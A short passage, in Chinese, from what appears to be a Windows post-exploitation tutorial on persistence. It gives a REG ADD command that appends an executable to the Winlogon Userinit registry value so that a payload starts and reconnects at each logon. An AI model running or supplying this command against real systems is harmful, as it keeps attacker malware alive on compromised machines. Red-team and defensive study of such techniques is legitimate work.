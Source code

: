 ![image-20230817115543928](assets/image-20230817115543928.png)

### 6.1.2. 修改注册表

这里是需要权限的，使用普通用户的权限可能无法执行，所以依旧需要提权后操作。

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /V "Userinit" /t REG_SZ /F /D "C:\Windows\System32\userinit.exe,C:\1\3000.exe"
```

![image-20230817115654047](assets/image-20230817115654047.png)

### 6.1.3. 查看效果

可以看到重启或者锁屏后重新登陆即可上线。

